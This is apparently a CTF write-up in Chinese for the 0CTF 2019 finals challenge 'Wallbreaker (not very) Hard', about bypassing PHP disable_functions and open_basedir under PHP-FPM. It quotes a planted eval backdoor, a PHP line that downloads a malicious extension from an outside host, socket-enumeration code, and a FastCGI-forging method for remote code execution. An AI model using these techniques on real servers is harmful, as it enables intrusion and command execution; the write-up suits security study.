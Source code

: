 # Wallbreaker (not very) Hard

[English Version](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/README_en.md)

## 題目分析

- 這題基本上跟 0CTF 2019 初賽那題環境一樣:
    - PHP-FPM
    - PHP 7.2
    - 更嚴格的 `disable_functions`
        - `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,putenv,proc_open,passthru,symlink,link,syslog,imap_open,dl,system,mb_send_mail,mail,error_log`
        - 這次不能再用`putenv`了:p
    - `open_basedir: /var/www/html:/tmp`

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/phpinfo.png)

- 首先這題告訴我們有個backdoor，但要自己去找
- 踹了一下發現有`.index.php.swp`
- backdoor key: `eval($_POST["anfkBJbfqkfqasd"]);`
- 後面就開始繞`disable_functions`和`open_basedir`

## Exploit

- 在初賽時，我偽造 fastcgi 去繞過 `open_basedir` (把設定寫掉)
- 但其實我後來發現可以透過 extension 直接 RCE
- 只要把 `PHP_ADMIN_VALUE` 中的 `extension_dir` 和 `extension` 寫掉就可以載入任意 extension
- 所以我們第一步就是上傳能執行 Command 的 extension:

```php
file_put_contents("/tmp/bad.so", file_get_contents("http://kaibro.tw/bad.so"));
```

- 在偽造 FastCGI Protocol 之前，我們必須先找出他的 UNIX Socket path (如果是走 tcp，就要找到 port):

```php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/php/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/php/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

=> `/var/run/php/U_wi11_nev3r_kn0w.sock`

- 接著開始偽造 FastCGI Protocol 寫掉設定，這邊可以參考 [payload.php](https://github.com/w181496/FuckFastcgi/blob/master/index.php)
    - 把裡面對應的設定改掉就行

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker\ \(not very\)\ Hard/getflag.png)

- RCE Get!
- `/readflag` => `flag{PHP-FPM is awesome and I think the best pratice is chroot your PHP}`

